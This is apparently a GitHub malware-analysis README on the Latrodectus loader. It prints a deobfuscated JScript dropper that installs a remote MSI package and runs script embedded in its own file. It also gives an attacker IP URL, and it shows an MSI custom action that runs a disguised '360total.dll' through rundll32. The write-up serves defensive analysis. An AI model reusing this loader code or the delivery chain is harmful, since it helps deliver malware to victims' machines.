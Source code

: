 # LatrodectusWEB
Latrodectus malware analysis 

## Table of contents
- [Intruduction](#intruduction)
- [Stage 0 - The JS](#stage-0---the-js)
- [Stage 1 - The MSI package](#stage-1---the-msi-package)


## Intruduction



## Stage 0 - The JS

Stage 0 is appearing as an obfuscated JS file `<filename>.js` which contains the code that attempts to download an MSI package from a specified URL `http://45.95.11.217/ad.msi`. After downloading the MSI package, the JS file is using the `ActiveXObject` to iternact with Windows Installer and installs the product using the `InstallProduct()` method. 

The variable `a` employs an Immediately Invoked Function Expression (IIFE), encapsulating a function designed to locate and execute a script embedded within the current script file `WScript.ScriptFullName`. It utilizes the `Scripting.FileSystemObject` to navigate the file system, particularly for reading the lines of the script file. Within this context, the `e()` function iterates through the script file, identifying and extracting embedded script content, storing it in `d`. Subsequently, the `h()` function attempts to execute the extracted script content, provided it's not empty. The resulting object includes a method `j`, intended to orchestrate the entire process of discovering and executing the embedded script.

The `a.j()` invocation initiates the execution sequence by calling the `j` method of the `a` object. This method, in turn, endeavors to execute the embedded script discovered within the current script file.

```js
function installFromURL() {
        var installer;
        var msiPath;
        try {
            installer = new ActiveXObject("WindowsInstaller.Installer");
            installer.UILevel = 2;
            msiPath = "http://<snip>/<filename>.msi";
            installer.InstallProduct(msiPath);
        } catch (e) {
            WScript.Echo("failed: " + e.message);
        }
    }
    installFromURL();
    
    var a = (function() {
        var b = new ActiveXObject("Scripting.FileSystemObject"),
            c = WScript.ScriptFullName,
            d = "";
    
        function e() {
            if (!b.FileExists(c)) return;
    
            var f = b.OpenTextFile(c, 1);
            while (!f.AtEndOfStream) {
                var g = f.ReadLine();
                if (g.slice(0, 4) === "") d += g.substr(4) + "\n";
            }
            f.Close();
        }
    
        function h() {
            if (d !== "") {
                var i = new Function(d);
                i();
            }
        }
 
        return {
            j: function() {
                try {
                    e();
                    h();
                } catch (k) {}
    
            }
    
        };
    })();
    a.j();
```

## Stage 1 - The MSI package
An MSI package itself cannot be considered malicious because many products use it for their installation processes. However, in the exciting realm of malware analysis, we have to give it a chance to show its malicious side, RIGHT??? RIGHT... Let's dive in and see what mischief awaits! 

In order to analyze the MSI package, we have to install a specific 'unpacker' and see what the package contains. I chose to use the [lessmsi](https://github.com/activescott/lessmsi) tool for this purpose.

Let's start by diving deep into the package extractions, where we can find that a suspicious DLL is being extracted from the package named `360total.dll`.
![](assets/msi/1.PNG)

Very interesting finding, BUT let's proceed with the package investigation and explore the tables.

In the property table, we can find information regarding the package creator, such as the manufacturer, description, and product name. Based on the name `360 Total`, the entire setup seems to be an impersonation attempt of the 360 Total security solution AV.

![](assets/msi/2.PNG)


A very interesting table is the `CustomAction`, where an actor can insert their own custom actions or commands into the package flow. Here, they could potentially execute the extracted `360total.dll`—which is likely malicious—.

* `C:/Windows/System32/rundll32.exe [LocalAppDataFolder]sharepoint\360total.dll, homq`

The above command is executing the DLL with the `homq` entry point, which will be executed.


Note that `rundll32.exe` is a legitimate executable that exists on Windows. However, like other similar executables, it can be used in a malicious manner. e.g. [LOLBAS Rundll32](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)

![](assets/msi/3.PNG)

Finally, it appears that the entire packaging process was carried out using Caphyon Advanced Installer.

![](assets/msi/4.PNG)